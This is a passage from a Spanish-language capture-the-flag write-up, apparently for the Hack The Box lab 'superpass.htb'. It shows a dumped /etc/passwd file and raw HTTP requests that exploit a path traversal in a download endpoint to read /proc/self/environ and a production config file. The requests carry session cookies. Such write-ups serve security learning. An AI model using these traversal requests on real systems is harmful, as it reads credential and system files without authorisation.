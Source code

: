 ~~~http
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
~~~

Consultamos las variables de entorno del sistema

~~~http
GET /download?fn=../../proc/self/environ HTTP/1.1
Host: superpass.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljk1qAzEMha9itA7Fsj1jK6fovoQgyXJmYNqE8WQVcve6dPV4vB--F1zbxn2xDuevF7hjCHxb73wzOMHnZtzNbfebW3_ccXesOkJ3LGt3j9H5gMv7chonu_UFzsf-tOHWCmdolclMov5tsNWk1RsFZNFZLRfzTJVa8T5Q0OgxaFHB1LgIVwokFqcUaKY8kbRM1ihTkjhJZqyKcdaSMZhQRYqoUubSms_JWxLyA__67Lb_06CH9y8M9kfe.ZAX9Ow.fH2yxQcz3IpceX-8l2pwRttG9Uk; remember_token=11|a91ce8f326a4f9f0a8529318e8bb45fb40d8b5747b727b7815fddf9f7d74fd4414370eed6fdcd69074041975f71e52a5cbe305cfc06715ace1b48a7238f3841e
Connection: close
~~~

![](/Agile/Pasted_image_20230306121100.png)

Buscamos el directorio /app/config_prod.json

~~~http
GET /download?fn=../../home/dev_admin/app/config_prod.json HTTP/1.1
Host: superpass.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljk1qAzEMha9itA7Fsj1jK6fovoQgyXJmYNqE8WQVcve6dPV4vB--F1zbxn2xDuevF7hjCHxb73wzOMHnZtzNbfebW3_ccXesOkJ3LGt3j9H5gMv7chonu_UFzsf-tOHWCmdolclMov5tsNWk1RsFZNFZLRfzTJVa8T5Q0OgxaFHB1LgIVwokFqcUaKY8kbRM1ihTkjhJZqyKcdaSMZhQRYqoUubSms_JWxLyA__67Lb_06CH9y8M9kfe.ZAX9Ow.fH2yxQcz3IpceX-8l2pwRttG9Uk; remember_token=11|a91ce8f326a4f9f0a8529318e8bb45fb40d8b5747b727b7815fddf9f7d74fd4414370eed6fdcd69074041975f71e52a5cbe305cfc06715ace1b48a7238f3841e
Connection: close
~~~
